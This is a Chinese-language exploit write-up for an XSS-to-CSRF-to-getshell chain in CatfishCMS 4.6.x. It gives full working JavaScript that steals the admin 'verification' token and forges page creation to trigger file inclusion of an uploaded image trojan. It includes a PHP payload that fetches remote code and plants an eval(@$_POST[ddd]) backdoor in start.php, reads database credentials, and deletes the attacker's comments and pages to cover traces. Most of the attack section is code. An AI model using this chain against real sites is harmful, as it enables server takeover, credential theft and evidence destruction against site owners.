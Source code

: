 # CatfishCMS 4.6.15 csrf getshell

> 原文：[http://book.iwonder.run/0day/CatfishCMS/5.html](http://book.iwonder.run/0day/CatfishCMS/5.html)

## 一、漏洞简介

在测试的过程中发现更新版本的时候作者添加一个参数 verification 可能是用来防治 csrf。嗯，不得不说，作者安全意识提高了，用来防治 csrf 这的却是一个好思路，但是对于我们可以执行 xss 来说，verification 就显的苍白无力了，因为我们可以先获取 verification 然后在执行 csrf 从而来绕过。

## 二、漏洞影响

CatfishCMS 4.6

## 三、复现过程

### 漏洞分析

文件：CatfishCMS-4.6.12\catfish\library\think\Template.php

函数：fetch()

![image](img/a0094cedc1788b4875dfbd91d13a4407.png)

![image](img/2be8835971a4506e839cd93cedadc87f.png)

![image](img/f8e632432a6e7b35079f817e69600608.png)

![image](img/1b0396613532a3f8046ef7b873cf289d.png)

![image](img/409dbe87eb68a04ede8fe0f40458e10b.png)

![image](img/afc1858bad7698027d69e06cfce80909.png)

嗯，说完了。Fetch 方法最后都会编译文件以后通过 PHP 输出，所以如果我们可以在他编译之前写入 恶意代码 那么就可以为所欲为。

### 复现

前台注册一个账户->注册一个图片马到网站中->评论处插入 xss 代码->等待无辜管理员登录网站->获取 verification(绕过检测)->管理员入口-页面管理-新建页面-csrf 插入一条非法语句引起包含漏洞(用来包含前面的图片马)->包含漏洞执行代码->包含漏洞添加 getshell_code.php 文件写入恶意代码->包含漏洞-将框架文件 start.php 添加一句话木马-包含数据库配置文件-连接数据库->删除我们前面的评论->删除我们 csrf 创建的页面->邮件通知我们->getshell

CatfishCMS-4.6.12-xss.js

```
/*  
    需要插入的 xss 代码
    <img src="#" alt="xss_csrf_getshll" onerror="var url = 'http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/CatfishCMS-4.6.12-xss.js';xss_js = '<scr'+'ipt src='+url+'><\/sc'+'ript>';$('body').append(xss_js);">
*/ 

//不用动的
var articles = 'index.php/admin/Index/articles.html';//用来获取 verification 绕过检测
var newpage = 'index.php/admin/Index/newpage.html';//生成文章地址
var allpage = 'index.php/admin/Index/allpage.html';//获取文章链接

//需要改的
var url = 'http://0-sec.org';//你要日的站的域名
var directory = '/cms/CatfishCMS-4.6.12/'; //日的站的额外目录一般为空即可(站点设置二级目录时，此目录要填写)
var img_trojan_url = '../../../'+'data/uploads/20171201/2c8b7c7f1d49faeb5321ce0c9b1962af.jpg';//图片马的地址 修改 + 号后面的即可
var getshell_code = 'http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/getshell_code.txt';//恶意代码远程包含的地址

$('body').append('<div id="csrf_verification" style="display:none;"></div>');
$('body').append('<div id="csrf_allpage" style="display:none;"></div>');

$.ajax({
    url: url+directory+articles,
    dataType: "json",
    success: function(verification_content){
        $('#csrf_verification').append(verification_content);
        var verification = $('#verification').html();//用来绕过验证的
        // alert(verification);

        //csrf 生成文章,引起文件包含漏洞
        $.ajax({
            type: "POST",
            url: url+directory+newpage,
            data: {
                'biaoti':'xss_csrf_getshll',
                'template':img_trojan_url,
                'verification':verification,
                'fabushijian':'2017-12-05 11:56:48'
            },
            success: function(){
                //csrf 获取 shell 链接
                $.ajax({
                    type: "POST",
                    url: url+directory+allpage,
                    success: function(allpage_content){
                        $('#csrf_allpage').append(allpage_content);
                        var shell_id = $('#csrf_allpage .table-responsive .table-bordered tbody tr td .gouxuan').eq(0).val();
                        var shell_url = $('#csrf_allpage .table-responsive .table-bordered tbody tr td a').eq(0).attr('href');

                        var shell_content = '';
                            shell_content+= "$myfile = fopen('getshell_code.php', 'w');";
                            shell_content+= '$txt = '+'file_get_contents("'+getshell_code+'");';
                            shell_content+= 'fwrite($myfile, $txt);';
                            console.log(shell_content);

                        //执行 shell 生成马子
                        $.ajax({
                            type: "POST",
                            url: url+shell_url,
                            dataType: "json",
                            data: {'ddd':shell_content},
                            success: function(data){
                                $.ajax({
                                    type: "GET",
                                    url: url+directory+'getshell_code.php',
                                    dataType: "json", 
                                    // data: {'zzz':1}
                                });
                            },
                            error: function(){
                                $.ajax({
                                    type: "GET",
                                    url: url+directory+'getshell_code.php',
                                    dataType: "json", 
                                    // data: {'zzz':1}
                                });
                            }   
                        });

                    } 
                });

            } 
        });

    }
}); 
```

![image](img/4db8e80b2aff22be00584cc2fc76cc5d.png)

![image](img/a6987ccda78f561acd894c1bf31833e7.png)

写好以后模拟管理员，进入后台

![image](img/1467a692e814d1dcdd3b94f8098f43f2.png)

![image](img/391cd5d7cbca662fa10dd17463c6da3a.png)

![image](img/866dbb1e67d2320fb649db0d8bab7de4.png)

![image](img/68df51c4061c9c01a0147f47ef98f1ab.png)

getshell_code

```
<?php  
    $start_content = file_get_contents('catfish/start.php').'eval(@$_POST[ddd]);';
    $start = fopen('catfish/start.php', 'w');
    fwrite($start, $start_content);
    if( @$_GET[zzz]){
        $config = require_once("application/database.php");
        //分别对应的是 地址，端口号，连接的数据库，编码
        $dsn = "mysql:host={$config['hostname']}; port={$config['hostport']}; dbname={$config['database']}; charset={$config['charset']}";
        $user = $config['username'];
        $psw = $config['password'];
        $pdo = new PDO($dsn,$user,$psw);
        $sql = "DELETE from catfish_posts WHERE post_title LIKE '%xss_csrf_getshll%'";
        $sql_1 = "DELETE from catfish_comments WHERE content LIKE '%xss_csrf_getshll%'";
        $pdo->query($sql);
        $pdo->query($sql_1);
        unlink('getshell_code.php');
    }
?> 
```

![image](img/9a99b2e3d1101df7a56db6f90c26d9ca.png)

连接马子的操作，这个文件会在 index.php 中给引入所以直接

```
http://0-sec.org/index.php

POST

ddd = 你要执行的命令 
```

![image](img/b86336c02e0d7172023e5e647c64a674.png)

![image](img/44057c890ae31e17e940d547cd3f3e2d.png)

